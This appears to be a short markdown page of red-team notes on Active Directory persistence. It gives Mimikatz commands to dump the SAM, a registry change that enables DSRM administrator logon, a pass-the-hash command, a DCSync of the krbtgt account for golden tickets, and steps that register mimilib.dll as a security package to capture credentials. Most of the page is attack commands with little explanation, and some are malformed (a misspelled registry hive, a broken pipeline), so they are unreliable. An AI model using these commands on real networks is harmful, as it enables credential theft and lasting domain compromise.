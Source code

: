 
## DSRM

> SafeModePassword - when u promote a server to DC


> DA required

```powershell
Mimikatz# token::elevate
Mimikatz# lsadump::sam
```

first:
```powershell
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

Set-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2
```

then:
```powershell
Mimikatz# sekurlsa::pth /domain:dc (dc hostname) /user:Administrator /ntlm:<hash> /run:powershell.exe
```

Downsides:
```powershell
• We can access via PSRemoting
• we can access via RDP:

PS> mstsc /admin
```

GoodSides:
```powershell
# we can execute the DCSync and Golden Ticket afterwards
Mimikatz # lsadump::dcsync /user:krbtgt /domain<domain FQDN or netbios> /dc:<hostname> 
```
 

## SSP

dynamic library (DLL)

> mimikatz has mimilib.dll

add the dll file on system32 and create a referente on register
```powershell
PS> $tools = Get-ItemProperty HLKM:\System\CurrentControlSet\Control\Lsa\OSConfig\ -Name ‘SecurityPackages’ | select -ExpandProperty ‘Security Packages’

$tools += ‘mimilib’

Set-ItemProperty HLKM:\System\CurrentControlSet\Control\Lsa\OSConfig\ -Name ‘SecurityPackages’ | select -ExpandProperty ‘Security Packages’ -Value $tools

Set-ItemProperty HLKM:\System\CurrentControlSet\Control\Lsa\ -Name ‘SecurityPackages’ | select -ExpandProperty ‘Security Packages’ -Value $tools
```
